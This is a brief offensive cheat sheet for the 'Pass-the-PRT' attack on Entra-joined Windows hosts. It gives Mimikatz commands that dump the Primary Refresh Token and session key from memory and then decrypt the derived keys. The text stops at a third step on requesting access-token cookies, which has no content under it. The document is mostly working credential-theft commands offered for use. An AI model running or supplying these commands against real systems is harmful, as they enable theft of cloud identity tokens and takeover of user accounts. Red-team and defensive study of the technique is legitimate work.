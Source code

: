 # Pass-the-Primary Refresh Token (PRT)

## Steps

#### 1) Extract PRT, Session Key (KeyValue), and Tenant ID

    Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::cloudap" ""exit"'

#### 2) Extract Context Key, ClearKey, and Derived Key

    Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "dpapi::cloudapkd /keyvalue:<KEY VALUE> /unprotect" "exit"'

#### 3) Request Access Token (Cookie) to All Applications

